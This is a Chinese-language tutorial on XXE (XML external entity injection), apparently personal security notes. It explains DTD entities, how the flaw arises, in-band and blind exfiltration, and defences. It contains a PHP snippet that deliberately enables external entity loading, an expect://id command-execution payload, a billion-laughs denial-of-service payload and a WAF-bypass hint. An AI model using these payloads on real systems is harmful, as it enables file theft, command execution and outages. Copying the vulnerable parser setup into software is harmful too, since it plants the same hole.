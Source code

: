 # XXE(XML外部实体注入)

## 目录

- [XXE(XML外部实体注入)](#xxexml外部实体注入)
  - [目录](#目录)
  - [XML(可拓展标记语言)](#xml可拓展标记语言)
    - [XML格式与DTD](#xml格式与dtd)
  - [产生原因](#产生原因)
  - [漏洞挖掘与判断](#漏洞挖掘与判断)
  - [漏洞利用](#漏洞利用)
    - [XML实体支持的协议](#xml实体支持的协议)
    - [有回显](#有回显)
      - [内部DTD+外部普通实体](#内部dtd外部普通实体)
      - [外部DTD+参数实体](#外部dtd参数实体)
    - [无回显(盲打)](#无回显盲打)
      - [外部DTD+参数实体的递归调用](#外部dtd参数实体的递归调用)
    - [其他利用](#其他利用)
  - [漏洞防御](#漏洞防御)
  - [相关工具](#相关工具)


## XML(可拓展标记语言)
### XML格式与DTD

- DTD是文档类型定义，约束XML书写规范
- DTD分类
  - 外部DTD(DTD是单独的.dtd文件)
  - 内部DTD(DTD与XML写在一起)

- DTD实体(类似于变量)
  - 内部普通实体
  - 外部普通实体
- 参数实体(实体定义时需要在实体前加%)
  - 内部参数实体
  - 外部参数实体
- 内部外部区别
    - 是否有url/uri
    - 外部实体定义需要在实体后加SYSTEM

```xml
<!-- 声明xml格式、版本及编码 -->
<?xml version = "1.0" encoding = "UTF-8">

<!-- neibuDTD -->
<!DOCTYPE neibuDTD[

    <!-- 内部普通实体 -->
    <!ENTITY aaa "lalala">
    <!-- 外部普通实体调用用外部DTD -->
    <!ENTITY bbb SYSTEM "http://127.0.0.1/xxx.dtd">
    <!-- 内部参数实体 -->
    <!ENTITY % ccc "hahaha">
    <!-- 外部参数实体调用外部DTD -->
    <!ENTITY % ddd SYSTEM "http://127.0.0.1/yyy.dtd">

    <!-- 参数实体调用必须写在DTD中 -->
    &ccc;
    &ddd;

    <!-- 也可以重新定义一个普通实体eee引用参数实体ccc，普通实体eee值为参数实体ccc -->
    <!ENTITY eee "%ccc;">
]>

<!-- XML -->
<!-- 普通实体在XML中调用 -->
<books>
    &aaa;
    &bbb;
    &eee;
</books>
```

## 产生原因
- 允许传入xml
- 开启了外部实体加载
```php
<?php
    //libxml_disable_entity_loader (true)为关闭外部实体加载
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
## 漏洞挖掘与判断
- 服务器能够解析xml
  - html请求头Content-Type: application/xml
- 服务器允许传入任意的xml
  - 随机写xml或者是写一个错的xml，看响应消息有没有变化或报错
- 服务器允许外部实体加载
  - libxml_disable_entity_loader (false);

## 漏洞利用
### XML实体支持的协议

|PHP|Java|.NET|libxml2
|:---:|:---:|:---:|:---:
|http|http|http|http
|ftp|ftp|ftp|ftp
|file|file|file
|data|https|https|
|php|jar
|glob|netdoc
|phar|mailto
|compress.zlib|gppher*
|compress.zlibp2

### 有回显
#### 内部DTD+外部普通实体
- 1.直接在xml中的内部dtd中定义一个外部实体，外部实体的值就是伪协议payload
- 2.在xml中调用外部实体即可
  
  ![](../img/XXE/2022-06-14-00-08-14.png)

#### 外部DTD+参数实体
- 1.在xml内部DTD中定义一个外部参数实体，实体的值是外部DTD的url   
- 2.在外部DTD文件中，定义一个外部实体，实体值是伪协议payload  
- 3.在内部DTD中引用参数实体，在xml中引用外部DTD的外部实体
  
  ![](../img/XXE/2022-06-14-00-27-43.png)
  ![](../img/XXE/2022-06-14-00-09-09.png)

### 无回显(盲打)
#### 外部DTD+参数实体的递归调用
- 1.在xml内部DTD中定义一个外部参数实体，实体的值是外部DTD的url
- 2.在外部DTD文件中，定义一个外部参数实体，实体的值是伪协议payload
- 3.在外部DTD文件中，再次定义一个参数实体，参数实体的值 再定义一个外部参数实体，外部参数实体的值是url外带拼接（url+第2步参数实体的调用）
- 4.在xml内部DTD中，分别调用三个外部参数实体，分别是 第1步的外部参数实体和 第3步创建的两个参数实体

  ![](../img/XXE/2022-06-14-00-30-02.png)

  ![](../img/XXE/2022-06-14-00-29-05.png)

- 开启监听接收数据
  
  ![](../img/XXE/2022-06-14-00-32-05.png)

- base64解密
  ![](../img/XXE/2022-06-14-00-32-29.png) 

### 其他利用
- 命令执行
```xml
<?xml version="1.0"?>
<!DOCTYPE root [ <!ELEMENT  ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>&xxe;</root>
```
- DDOS攻击
```xml
  <?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
<lolz>&lol9;</lolz>
```
- [xxe双重实体编码绕过waf](https://www.qqxiuzi.cn/bianma/zifushiti.php)

## 漏洞防御
- 1.过滤敏感的标签
- 2.禁用外部实体加载libxml_disable_entity_loader (true);

## 相关工具
- [Xxer](https://github.com/TheTwitchy/xxer )
